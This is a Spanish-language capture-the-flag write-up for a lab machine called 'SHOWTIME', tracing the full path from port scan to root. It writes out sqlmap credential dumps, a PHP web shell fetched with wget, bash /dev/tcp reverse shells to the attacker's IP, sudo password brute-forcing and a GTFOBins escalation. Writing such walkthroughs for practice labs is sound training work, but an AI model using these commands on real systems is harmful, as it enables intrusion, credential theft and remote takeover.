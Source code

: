 # SHOWTIME

## INTRUSIÓN

Iniciamos haciendo un escaneo de nmap con el siguiente comando "nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2"

![nmap](./images/showtime/imagenes/nmap.png)

Vemos que el puerto 80 y 22 están abiertos, así que exploraremos el puerto 80.

Puerto 80:

![Puerto 80](./images/showtime/imagenes/puerto80.png)

Lo mas interesante que vemos es el botón de login, así que lo presionamos y nos redirecciona a un panel de login.

Luego de intentar con credenciales tipicas como "admin:admin", "root:root" y ver que no funcionan intentamos poner una comilla para ver si es vulnerable a inyección sql. Al hacerlo comprobamos que es vulnerable así que podemos proceder a usar sqlmap.

"sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch "

sqlmap encuentra lo siguiente:

![sqlmap](./images/showtime/imagenes/sqlmap.png)

Ahora vamos a listar las bases de datos con "sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch --dbs" nos encuentra una llamada 'users', luego vemos las tablas de esa base de datos con "sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch -D users --tables" y nos muestra una tabla llamada 'usuarios'. Ahora veremos que contiene con "sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch -D users -T usuarios --dump". Nos encuentra tres usuarios y vemos que sus contraseñas estan guardadas de manera insegura en texto.

![usuarios](./images/showtime/imagenes/usuarios.png)

Ahora pruebo en el login uno por uno y el mas interesante es el usuario 'joe' que tiene un panel para ejecutar codigo de python. Lo primero que se me ocurre es subir un archivo .php que nos permita enviarnos una reverse shell. Pero primero debemos crearnos la reverse shell en nuestra maquina local con el siguiente codigo en su interior:

```php
<?php
      system($_GET['cmd']);
?>
```

Abriremos un servidor de python con "python3 -m http.server 9090" y luego escribiremos el siguiente codigo:

```python
import os

os.system("wget nuestraip:9090/shell.php") 
```

vemos si se creó con éxito usando

```python
import os
os.system("ls")
```

Al ver que se creó con éxito usamos el mismo código pero reemplazando 'ls' por 'chmod +x shell.php'. Ahora intentamos entrar desde el navegador y agregaremos lo siguiente en la barra de búsqueda para ver si funciona el script; '?cmd=whoami'. Comprobamos que funciona y ya nos podemos enviar una reverse shell a nuestra ip escuchando con netcat. Para hacerlo ponemos en el terminal:

```bash
nc -nlvp 443
```

y en la barra de búsqueda en vez de 'whoami' ponemos:

```bash
bash -c 'bash -i >%26 /dev/tcp/(nuestra ip)/443 0>%261'
```

y recibiremos la reverse shell.

## TRATAMIENTO DE LA TTY

para poder quedarnos con un terminal cómodo hacemos lo siguiente:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg 
	reset xterm
export TERM=xterm && export SHELL=bash
```

## ESCALADA DE PRIVILEGIOS

Si vamos al directorio '/tmp' podemos ver un archivo llamado '.hidden\_text.txt', vemos su interior y encontramos una mensaje para "martin" con una lista de trucos favoritas, supongo que esta el usuario "martin" pero al ver el archivo "passwd" veo que solo existe 'joe' y 'luciano'. Ahora para probar las contraseñas podemos usar el siguiente script [Sudo\_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y para probar las contraseñas nos las metemos en un .txt en nuestra maquina local borrando el mensaje para martin y pasamos todas las letras a minuscula con :

```bash
tr '[:upper:]' '[:lower:]' < archivo.txt > archivo_minusculas.txt

```

una vez que lo tenemos en minusculas nos lo pasamos a la maquina victima e intentamos usarlo con el usuario joe. Nos encuentra la que contraseña de joe es "chittychittybangbang" asique ahora podemos escalar al usuario joe con su.

## JOE

Como tenemos la contraseña de joe podemos ejecutar sudo -l para ver si podemos ejecutar algo con sudo

![joe-l](./images/showtime/imagenes/joe-l.png)

Vemos que lo unico que podemos ejecutar es "/bin/posh" como el usuario "luciano". Luego de buscar en [gtfobins](https://gtfobins.github.io/gtfobins/posh/#sudo) vemos que se puede escalar con "posh" usando:

```bash
sudo -u luciano posh
```

## LUCIANO

Ya en el perfil de luciano ponemos "bash" para tener un terminal mas comodo, y nuevamente "sudo -l". Vemos que luciano puede ejecutar como root lo siguiente:

![luciano-l](./images/showtime/imagenes/luciano-l.png)

Vamos al path del script usando "cd" y vemos que contiene. Al fijarnos vemos que parece tener un script para enviar una reverse shell, por lo que intentaremos modificarlo. Pero como no existe el binario nano ni vim tendremos que hacerlo con el comando "echo" de la siguiente manera:

```bash
echo -e '#!/bin/bash\n\nbash -c '"'"'exec 5<>/dev/tcp/(nuestra ip)/443; cat <&5 | bash >&5 2>&5'"'"'' > script.sh
```

Ya solo nos queda ponernos en escucha con netcat y ejecutar el script como root y listo.

![ROOT](./images/showtime/imagenes/ROOT.png)

Ya somos root
